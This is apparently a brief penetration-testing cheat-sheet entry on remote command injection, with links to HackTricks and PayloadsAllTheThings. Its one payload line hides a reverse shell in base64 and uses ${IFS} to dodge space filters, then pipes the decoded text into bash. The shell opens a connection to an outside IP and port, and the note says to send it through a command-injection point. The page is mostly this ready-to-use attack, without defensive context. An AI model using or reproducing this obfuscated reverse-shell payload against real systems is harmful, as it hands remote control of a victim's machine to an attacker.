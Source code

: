 # REMOTE COMMAND INJECTION
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- `echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85OTk5IDA+JjEK|base64${IFS}-d |bash` Send the payload through CI

